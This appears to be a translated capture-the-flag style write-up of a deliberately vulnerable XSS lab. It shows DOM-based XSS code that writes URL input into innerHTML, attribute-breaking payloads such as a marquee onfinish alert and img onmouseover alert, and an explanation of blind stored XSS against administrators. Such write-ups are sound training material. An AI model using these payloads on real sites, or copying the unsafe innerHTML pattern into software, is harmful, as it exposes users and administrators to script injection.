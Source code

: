 The payload structure is as follows '> <marquee loop="99" onfinish=alert(1)>hack the planet</marquee>



DOM type xss-x
core code

<div id="xssd_main">
                <script>
                    function domxss(){
                        var str = window.location.search;
                        var txss = decodeURIComponent(str.split("text=")[1]);
                        var xss = txss.replace(/\+/g,' ');
//                        alert(xss);

                        document.getElementById("dom").innerHTML = "<a href='"+xss+"'>就让往事都随风,都随风吧</a>";
                    }
                    //试试:'><img src="#" onmouseover="alert('xss')">
                    //试试:' onclick="alert('xss')">,闭合掉就行
                </script>
                <!--<a href="" onclick=('xss')>-->
                <form method="get">
                <input id="text" name="text" type="text"  value="" />
                <input id="submit" type="submit" value="请说出你的伤心往事"/>
                </form>
                <div id="dom"></div>
            </div>

exploit

Same as the previous steps, check the source code, and distinguish the first DOM demo, the input is obtained from the parameters of the URL (similar to the reflection type), but the output is still in the a tag, so set the payload the same as the previous method

The payload structure is as follows '> <marquee loop="99" onfinish=alert(1)>hack the planet</marquee>

xss blind typing
Server-side core code

if(array_key_exists("content",$_POST) && $_POST['content']!=null){
     $content=escape($link, $_POST['content']);
     $name=escape($link, $_POST['name']);
     $time=$time=date('Y-m-d g:i:s');
     $query="insert into xssblind(time,content,name) values('$time','$content','$name')";
     $result=execute($link, $query);
     if(mysqli_affected_rows($link)==1){
         $html.="<p>Thank you for participating, we have received your opinion!</p>";
     } else {
         $html.="<p>ooo. There is an exception in the submission, please resubmit</p>";
     }
}
XSS blind typing means that the attacker submits malicious JS code without knowing whether there is an xss vulnerability in the background, and the website uses the malicious code inserted by the attacker when the background position is displayed behind an input box such as a message board. When the background administrator is operating, it will trigger the inserted malicious code, so as to achieve the purpose of the attacker.
